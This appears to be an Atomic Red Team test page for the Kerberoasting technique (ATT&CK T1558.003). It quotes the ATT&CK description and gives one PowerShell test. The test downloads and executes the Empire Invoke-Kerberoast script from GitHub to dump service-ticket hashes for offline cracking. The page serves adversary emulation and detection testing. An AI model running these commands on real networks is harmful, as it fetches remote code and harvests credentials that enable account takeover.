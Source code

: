 # T1558.003 - Kerberoasting
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1558/003)
<blockquote>Adversaries may abuse a valid Kerberos ticket-granting ticket (TGT) or sniff network traffic to obtain a ticket-granting service (TGS) ticket that may be vulnerable to [Brute Force](https://attack.mitre.org/techniques/T1110).(Citation: Empire InvokeKerberoast Oct 2016)(Citation: AdSecurity Cracking Kerberos Dec 2015) 

Service principal names (SPNs) are used to uniquely identify each instance of a Windows service. To enable authentication, Kerberos requires that SPNs be associated with at least one service logon account (an account specifically tasked with running a service(Citation: Microsoft Detecting Kerberoasting Feb 2018)).(Citation: Microsoft SPN)(Citation: Microsoft SetSPN)(Citation: SANS Attacking Kerberos Nov 2014)(Citation: Harmj0y Kerberoast Nov 2016)

Adversaries possessing a valid Kerberos ticket-granting ticket (TGT) may request one or more Kerberos ticket-granting service (TGS) service tickets for any SPN from a domain controller (DC).(Citation: Empire InvokeKerberoast Oct 2016)(Citation: AdSecurity Cracking Kerberos Dec 2015) Portions of these tickets may be encrypted with the RC4 algorithm, meaning the Kerberos 5 TGS-REP etype 23 hash of the service account associated with the SPN is used as the private key and is thus vulnerable to offline [Brute Force](https://attack.mitre.org/techniques/T1110) attacks that may expose plaintext credentials.(Citation: AdSecurity Cracking Kerberos Dec 2015)(Citation: Empire InvokeKerberoast Oct 2016) (Citation: Harmj0y Kerberoast Nov 2016)

This same attack could be executed using service tickets captured from network traffic.(Citation: AdSecurity Cracking Kerberos Dec 2015)

Cracked hashes may enable [Persistence](https://attack.mitre.org/tactics/TA0003), [Privilege Escalation](https://attack.mitre.org/tactics/TA0004), and [Lateral Movement](https://attack.mitre.org/tactics/TA0008) via access to [Valid Accounts](https://attack.mitre.org/techniques/T1078).(Citation: SANS Attacking Kerberos Nov 2014)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Request for service tickets](#atomic-test-1---request-for-service-tickets)


<br/>

## Atomic Test #1 - Request for service tickets
This test uses the Powershell Empire Module: https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1
The following are further sources and credits for this attack:
[Kerberoasting Without Mimikatz source] (https://www.harmj0y.net/blog/powershell/kerberoasting-without-mimikatz/)
[Invoke-Kerberoast source] (https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Kerberoast/)
when executed successfully , the test displays available services with their hashes. 
If the testing domain doesn't have any service principal name configured, there is no output

**Supported Platforms:** Windows


**auto_generated_guid:** 3f987809-3681-43c8-bcd8-b3ff3a28533a






#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
iex(iwr https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1 -UseBasicParsing)
Invoke-Kerberoast | fl
```






<br/>
